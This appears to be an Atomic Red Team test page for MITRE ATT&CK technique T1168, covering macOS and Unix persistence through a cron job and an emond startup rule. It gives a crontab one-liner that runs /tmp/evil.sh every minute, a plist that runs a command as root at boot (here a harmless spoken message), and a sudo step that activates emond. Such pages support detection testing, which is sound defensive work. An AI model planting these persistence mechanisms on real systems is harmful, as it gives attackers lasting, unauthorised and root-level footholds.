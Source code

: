 # Local Job Scheduling

MITRE ATT&CK Technique: [T1168](https://attack.mitre.org/wiki/Technique/T1168)

### Cron Job

    echo "* * * * * /tmp/evil.sh" > /tmp/persistevil && crontab /tmp/persistevil

### Emond

copy this file into /etc/emond.d/rules/atomicredteam.plist

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
    <plist version="1.0">
    <array>
        <dict>
            <key>name</key>
            <string>atomicredteam</string>
            <key>enabled</key>
            <true/>
            <key>eventTypes</key>
            <array>
                <string>startup</string>
            </array>
            <key>actions</key>
            <array>
                <dict>
                    <key>command</key>
                    <string>/usr/bin/say</string>
                    <key>user</key>
                    <string>root</string>
                    <key>arguments</key>
                        <array>
                            <string>-v Tessa</string>
                            <string>I am a persistent startup item.</string>
                        </array>
                    <key>type</key>
                    <string>RunCommand</string>
                </dict>
            </array>
        </dict>
    </array>
    </plist>

create an empty file in /private/var/db/emondClients/

    sudo touch /private/var/db/emondClients/randomflag

